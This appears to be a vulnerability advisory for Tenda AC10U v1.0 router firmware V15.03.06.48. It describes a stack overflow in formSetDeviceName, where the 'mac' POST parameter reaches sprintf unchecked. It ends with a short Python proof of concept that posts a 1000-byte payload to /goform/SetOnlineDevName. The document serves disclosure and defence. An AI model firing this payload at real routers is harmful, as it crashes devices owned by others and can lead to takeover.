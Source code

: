 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `dev_id` variable receives the `mac` parameter from a POST request and is passed to function `set_device_name`. In this function, `mac_addr` is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mac` can trigger this security vulnerability.

![image-20240313233114843](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233114843.png)

![image-20240313233659719](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233659719.png)

![image-20240313233713048](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233713048.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313233758387.png)